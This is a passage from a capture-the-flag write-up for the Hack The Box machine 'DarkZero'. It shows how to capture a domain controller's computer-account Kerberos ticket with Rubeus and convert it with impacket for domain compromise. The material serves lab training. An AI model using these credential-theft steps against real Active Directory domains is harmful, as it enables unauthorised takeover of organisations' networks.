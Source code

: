 
### The Ticket Capture

Rubeus will display multiple tickets. Look for this specific one:

```
[*] Found new TGT:

User : DC01$@DARKZERO.HTB
StartTime : 10/9/2025 10:21:46 AM
EndTime : 10/9/2025 8:21:46 PM
Flags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
Base64EncodedTicket :

doIFjDCCBYigAwIBBaEDAgEW....[VERY LONG BASE64 STRING]....
```

🎯 **Key Indicators:**

- User: `DC01$@DARKZERO.HTB` (NOT `DARKZERO.EXT`!)  
- Flags include: `forwardable`  

**Copy the entire base64 string!**

🎓 **Why DC01$ specifically?**  
`DC01$` is the computer account for DC01. Computer accounts in AD have special privileges — they can access domain secrets (NTDS.dit). This ticket is our golden ticket to domain admin!

---

## 🔐 Phase 7: Ticket Conversion and Domain Compromise

### Converting the Ticket

On your Kali machine:

```bash
echo "PASTE_ENTIRE_BASE64_STRING_HERE" > dc01_ticket.b64
```

Decode from base64 to Kerberos `.kirbi` format:

```bash
cat dc01_ticket.b64 | base64 -d > dc01_ticket.kirbi
```

Convert to ccache format (Linux-compatible):

```bash
impacket-ticketConverter dc01_ticket.kirbi dc01_admin.ccache
```

🎓 **File Format Journey:**

- `base64` - Text encoding for transmission  
- `.kirbi` - Kerberos ticket (Windows format)  
- `.ccache` - Kerberos credential cache (Linux format)

---
